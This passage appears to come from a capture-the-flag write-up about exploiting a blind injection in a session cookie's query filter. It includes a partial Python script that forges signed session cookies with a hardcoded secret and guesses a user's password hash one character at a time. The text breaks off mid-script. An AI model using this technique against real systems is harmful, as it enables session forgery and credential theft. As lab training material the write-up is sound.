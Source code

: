 I tried each character until I reached `f`, and it returned something different:

<figure><img src="../../.gitbook/assets/image (4146).png" alt=""><figcaption></figcaption></figure>

The length of the first response was `2174`, while the second was different. Based on this, we should have exploited blind injection successfully and automation is possible. Further testing with 2 characters works as well.

Here's my script:

```python
import string
import requests
import json
import requests
import subprocess

password = ''
chars = "abcdef0123456789" # Hashes only have these characters
test = '' 

def generate(c):
	query = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":c}}}
	with open("cookie.json","w") as f:
		f.write(json.dumps(query))
	output = subprocess.check_output(["./cookie-monster.js", "-e", "-f", "cookie.json", "-k", "8929874489719802418902487651347865819634518936754", "-n", "download_session"]).decode().replace("\n"," ")

	jwt = output.split("download_session=")[1]
	jwt = jwt.split(" ")[0]
	jwt = jwt.split("\x1b")[0]
```
